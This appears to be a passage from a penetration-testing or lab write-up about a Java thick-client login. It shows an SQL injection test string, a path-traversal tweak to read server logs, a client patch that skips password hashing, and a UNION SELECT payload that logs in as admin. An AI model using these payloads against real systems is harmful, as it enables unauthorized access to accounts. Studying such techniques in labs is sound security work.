 
## 🔐 Password Processing Insight

* Hash = `SHA256(username + password + "clarabibimakeseverythingsecure")`

> Server-side checks hash of combined values for password validation.

## 🧪 SQL Injection via `username` Field

### 🧨 Injection Test:

```sql
' OR '1'='1
```

Fails due to hash mismatch, but confirms vulnerability in logs.


## 📜 Logs Reveal Error

### Modify GUI to List Logs:

```java
ClientGuiTest.this.currentFolder = "../logs";
```

* Read `error-log.txt` → confirms SQL exception syntax errors


## 💉 Exploiting with UNION Injection

### Bypass Password Validation:

1. Modify `User.java`:

   * Allow raw password (no hashing)

```java
public void setPassword(String password) {
    this.password = password;
}
```

2. Use crafted payload:

   ```
   Username: abc' UNION SELECT 1,'abc','a@b.com','abc','admin
   Password: abc
   ```

> Login ✅ as `admin` with full privileges!


---

# ColdFusion - Discovery & Enumeration
